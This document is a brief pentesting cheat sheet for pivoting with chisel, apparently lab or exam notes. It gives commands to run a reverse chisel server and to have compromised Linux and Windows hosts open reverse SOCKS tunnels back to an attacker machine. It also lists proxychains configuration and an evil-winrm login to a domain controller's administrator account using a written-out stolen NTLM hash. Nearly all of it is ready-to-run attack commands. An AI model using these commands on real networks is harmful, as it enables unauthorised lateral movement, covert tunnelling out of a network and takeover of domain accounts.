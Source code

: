 # Reference: https://ap3x.github.io/posts/pivoting-with-chisel/

## Attacker Server
./chisel_1.9.1_linux_amd64 server -p 4444 --reverse

## Machine 1 (Linux)
chisel client 192.168.1.72 4444 --reverse R:socks:1080
vi /etc/proxychains4.conf # Change socks and port to match socks port.

## Machine 1 (Windows)
.\chisel.exe client 192.168.45.185:4444 R:socks

## Attacker Machine
proxychains ssh

## Attacker Remote Connection to DC01 with stolen NTLM hash
proxychains evil-winrm -i 10.10.83.152 -u administrator -H 59b280ba707d22e3ef0aa587fc29ffe5
